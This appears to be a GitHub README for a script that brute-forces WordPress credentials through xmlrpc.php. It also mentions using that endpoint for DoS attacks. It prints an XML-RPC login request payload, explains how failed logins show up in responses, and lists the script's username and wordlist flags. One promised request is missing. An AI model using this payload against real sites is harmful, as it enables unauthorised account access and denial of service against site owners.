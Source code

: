 # XMLRPC.php Wordpress Bruteforce

If **xmlrpc.php** is active you can perform a credentials brute-force or use it to launch DoS attacks to other resources.

To see if is active try to access to **/xmlrpc.php** and send this request:

# Credentials Bruteforce

``wp.getUserBlogs``, ``wp.getCategories`` or ``metaWeblog.getUsersBlogs`` are some methods thta can be used to brute-force credentials.
If you can find any of them you can send something like:

```xml
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>username</value></param>
<param><value>pass</value></param>
</params>
</methodCall>
```

The message "Incorrect username or password" inside a 200 code response should appear if the credentiales aren't valid.

So with the Script you can Bruteforce this, with the flags:

**u** --> Username
**w** --> Path to Wordlist




